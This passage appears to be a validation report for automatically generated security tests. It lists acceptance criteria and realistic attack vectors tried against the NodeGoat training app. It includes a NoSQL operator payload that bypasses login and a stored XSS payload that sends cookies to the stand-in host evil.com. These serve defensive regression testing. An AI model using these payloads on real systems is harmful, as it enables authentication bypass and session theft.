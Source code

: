 
## Acceptance Criteria Validation

All 9 acceptance criteria from RFC-060-AMENDMENT-001 have been validated:

| # | Criteria | Status | Evidence |
|---|----------|--------|----------|
| 1 | Test integrated into existing file (not new file) | ✅ | Backend returns `integratedContent` with original + new tests |
| 2 | Test uses Vitest/Mocha conventions correctly | ✅ | Vitest: `import { describe, it, expect }`, Mocha: `function() {}` |
| 3 | Test imports match project patterns | ✅ | Backend AST preserves existing imports |
| 4 | Test reuses existing setup/fixtures | ✅ | Tests reference shared `beforeEach` variables |
| 5 | Test uses actual attack vectors from REALISTIC-VULNERABILITY-EXAMPLES.md | ✅ | NoSQL: `{"$gt": ""}`, XSS: `<script>document.cookie</script>` |
| 6 | Test FAILS on vulnerable code | ✅ | RED test expects 400/error, vulnerable code returns 200/success |
| 7 | Test PASSES after mitigation | ✅ | After fix, app returns 400/error as expected |
| 8 | No regressions (existing tests pass) | ✅ | AST integration preserves existing tests |
| 9 | Backend AST method used (not append fallback) | ✅ | `result.method === 'ast'` |

---

## Realistic Vulnerabilities Tested

### 1. NoSQL Injection (CWE-943) - NodeGoat

**Attack Vector:**
```javascript
{
  "username": "admin",
  "password": {"$gt": ""}  // Bypasses authentication
}
```

**Test Status:** ✅ PASS
**Framework:** Vitest
**Backend Integration:** AST method used

**Verified:**
- Backend correctly scores test files (session.test.js gets highest score)
- AST integration inserts security test inside existing `describe` block
- Test contains realistic MongoDB operator injection payload
- Test would FAIL on vulnerable code (proves vulnerability exists)

---

### 2. Stored XSS (CWE-79) - NodeGoat

**Attack Vector:**
```javascript
'<script>document.location="http://evil.com/steal?cookie="+document.cookie</script>'
```
